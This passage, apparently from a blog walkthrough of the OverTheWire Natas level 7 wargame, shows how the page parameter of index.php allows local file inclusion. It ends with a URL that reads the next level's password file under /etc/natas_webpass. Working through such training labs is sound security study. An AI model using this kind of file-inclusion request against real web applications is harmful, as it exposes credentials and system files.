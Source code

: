 Each link has a similar form, where page is a parameter sent to index.php.

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
```

As a guess since we've seen a lot of 'secret' things...

![natas07-02](/assets/images/otw-natas/natas07-02.png)

Ah ha, file inclusion. Furthermore, a hint in the page's source reminds us where we can find natas8's password.

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Visit `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`.
